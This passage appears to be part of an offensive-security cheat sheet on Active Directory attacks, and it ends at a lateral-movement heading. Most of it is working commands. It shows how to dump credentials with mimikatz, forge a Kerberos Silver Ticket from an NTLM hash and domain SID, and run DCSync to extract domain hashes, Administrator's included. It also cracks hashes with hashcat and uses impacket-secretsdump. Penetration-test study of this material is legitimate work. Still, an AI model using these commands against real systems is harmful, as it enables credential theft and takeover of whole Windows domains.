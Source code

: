 #### Silver Tickets

##### Prerequisites

- SPN password hash
- Domain SID
- Target SPN

##### Silver Ticket Forgery

```cmd
PS C:\> iwr -UseDefaultCredentials http://<RHOST>
PS C:\> .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords    // NTLM: 4d28cf5252d39971419580a51484ca09
PS C:\> whoami /user                   // SID: S-1-5-21-1987370270-658905905-1781884369-1105 (S-1-5-21-1987370270-658905905-1781884369)
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:<DOMAIN> /ptt /target:<RHOST> /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:<USERNAME>
PS C:\> klist
```

###### Check Access Permissions

```cmd
PS C:\> iwr -UseDefaultCredentials http://<RHOST>
```

#### Domain Controller Synchronization (DCSync)

##### Prerequisites

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered

##### Domain Controller Synchonization Execution

```cmd
PS C:\> .\mimikatz.exe
mimikatz # lsadump::dcsync /user:<DOMAIN>\<USERNAME>
mimikatz # lsadump::dcsync /user:<DOMAIN>\Administrator
$ hashcat -m 1000 <FILE> /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

```console
$ impacket-secretsdump -just-dc-user <USERNAME> <DOMAIN>/<USERNAME>:"<PASSWORD>"@<RHOST>
```

### Lateral Movement

#### Windows Management Instrumentation (WMI)

##### Spawning Process
